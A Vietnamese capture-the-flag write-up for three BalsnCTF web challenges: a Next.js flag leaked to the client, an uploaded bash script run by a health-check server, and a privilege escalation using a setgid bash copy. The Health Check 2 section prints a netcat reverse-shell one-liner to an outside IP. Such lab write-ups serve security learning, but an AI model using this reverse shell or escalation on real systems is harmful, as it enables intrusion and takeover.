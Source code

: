 # Write-up-BalsnCTF
### 1. my first app
![image](https://user-images.githubusercontent.com/82523299/188363439-d3381264-6dc6-467b-aadf-5e1508b4b868.png)

- Bài này được viết bằng nextjs, tôi chưa bao giờ học code js cả nên gặp nextjs là ngáo luôn ^^. Và tôi dành ra 1 tiếng để học cấp tốc tại trang https://nextjs.org/learn
- Đây là source và flag nằm ở ![image](https://user-images.githubusercontent.com/82523299/188363832-5d2212d0-d59a-43e1-9a59-fa0974b3dfa5.png)


- Vì không quen với kiểu code web routes nên mãi một hồi tôi mới biết được cách endpoine cái api hello để xuất ra secret ![image](https://user-images.githubusercontent.com/82523299/188363885-cba16781-280a-4203-a25c-abc45f6c8fa1.png)
- Nhưng thứ tôi cần là flag :((
- Trong source index.js tác giả đã `import globalVars from '../utils/globalVars'` để xuất cái title ở index của trang web và biến `globalVars` cũng chứa flag
- ![image](https://user-images.githubusercontent.com/82523299/188364193-53be8df9-c690-4b56-8680-841609a54592.png)
- Và tôi tìm mọi cách để có thể injected vào đây ^^, và rồi phát hiện không có cách nào cả
- Tôi thử search các version của thư viện nhưng đều là last version, ko có lỗi cve => cùng đường :((
- Sau khi quay lại đọc document của nextjs tôi tìm được từ khóa `one page website` đây là kiểu code mà server gửi các file frontend cho client để hướng dẫn client xử lí giảm gánh nặng cho server. Thế là tôi lục code trong DevTools của trang web
- Vì file index đã import globalVars nên data cũng được gửi về client
- ![image](https://user-images.githubusercontent.com/82523299/188365202-1c148fcd-d038-4981-822f-e57cfda31007.png)
#### Flag: BALSN{hybrid_frontend_and_api}

### 2.Health Check 1
![image](https://user-images.githubusercontent.com/82523299/188365589-0033b0b4-77c5-4134-bca1-cdd3b82c0582.png)
- Access tới trang web và nhận được đoạn json như trên
- Sau một hồi fuzz thì web này đúng kiểu chẳng có gì cả :((
- Và rồi dùng dirsearch scan thì ra được đường dẫn `http://fastest-healthcheck.balsnctf.com/docs`
- Tiếp tục fuzz đường dẫn mới và trang mới này cho phép upload 1 file zip chứa 1 file script, sau mỗi 30s server sẽ tự động đi tới và thực thi file script đó, đây là những gì trang web nói, phải đi kiểm chứng thôi ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367367-baad6a7b-be63-487d-8d94-b3e67f80d815.png)

- Lúc đầu tôi up 1 file script viết bằng python và compile thành file elf vì tôi nghĩ chỉ có elf mới thực thi được và nhận được kết quả
- ![image](https://user-images.githubusercontent.com/82523299/188365983-ac7b2b5a-7c8a-4685-885d-77bedc966d39.png)
- Và lại đi google, tôi biết đến bash script bắt đầu thực hiện thôi
- Vì output chỉ trả về trên file nên tôi đã curl để xác định xem script có thật sự được thực thi không
- ![image](https://user-images.githubusercontent.com/82523299/188366450-9f748c56-5a0f-4650-ba82-ea4ee7a26498.png)
- Nhận được request và biết rằng script có hoạt động
![image](https://user-images.githubusercontent.com/82523299/188366605-401882ff-6544-44f2-b9df-bcb7d89a7e47.png)
- Tiếp đến tôi viết luôn script để vét cạn luôn server ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367209-ef691870-5ee2-4866-b6d8-0d8844c23cb6.png)
- ![image](https://user-images.githubusercontent.com/82523299/188368158-e3312c54-d08a-4c6a-a34e-a6ad21be8de1.png)
- Thấy được file flag nhưng nhìn kĩ thì không có quyền read, sau một hồi lục lọi thì trong folder __pycache__ chưa file pyc của file flag1.py 
#### Flag: BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

### 3.Health Check 2
- Tương tự bài Health Check 1 thì bây h tìm cách lây dc file flag2, nhưng đây không phải file python nên ko nằm trong pycache nữa
- Tới đây lại khó khăn, tôi bắt đầu nghĩ đến khái niệm leo thang đặc quyền mà tôi hay nghe thấy, bắt đầu search và học và thử khá nhiều cách và tạch cuối cùng cũng tìm ra cách để giải bài này
- Tôi tìm thầy file này trong source leak ra và nó xử lí file docker-entry 
![image](https://user-images.githubusercontent.com/82523299/188442154-b0e91ad7-80b2-496c-bcdb-36cb0867038c.png)

- Tôi upload một file docker-entry
- ![image](https://user-images.githubusercontent.com/82523299/188442375-9e476321-b864-4427-b75e-6f93707a0fd3.png)
- File này sẽ copy bash vào thư mục data và thiết lập setgid và thực thi shell với egid=1000 
- Sau đó up script dưới dạng file ./run để nhận flag là xong

```
#!/usr/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|sh -i 2>&1|nc 102.122.100.112 1000 >/tmp/f
```

```
$cat ../../flag2
BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}
```

#### FLAG: BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}



